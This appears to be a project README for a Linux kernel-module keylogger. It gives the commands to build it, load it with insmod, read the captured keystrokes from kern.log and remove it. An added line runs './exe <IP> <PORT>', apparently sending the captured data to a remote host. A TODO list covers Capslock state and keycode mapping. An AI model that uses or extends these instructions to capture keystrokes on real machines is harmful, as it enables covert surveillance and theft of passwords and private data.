 keylogger
=========

Linux kernel level keylogger.

To build:
>make

To install the keylogger module:
>sudo insmod keylogger.ko

Test whether the module is loaded:
>lsmod | grep "keylogger"

Test whether the logging is happening:
>cat /var/log/kern.log
The log file will show the keystrokes logged after the module has been loaded.

To uninstall the keylogger module:
>sudo rmmod keylogger
--------------------------------------------------
we simplify that procedures

> ./exe <IP> <PORT> 





TODO:

1. Figure out how to get status of Capslock key. Since this module could be loaded when the capslock is already enabled, we cannot depend on just listening for Capslock key press event.

2. Keep configuration info like keycode to ascii mapping separately. And load it at runtime.

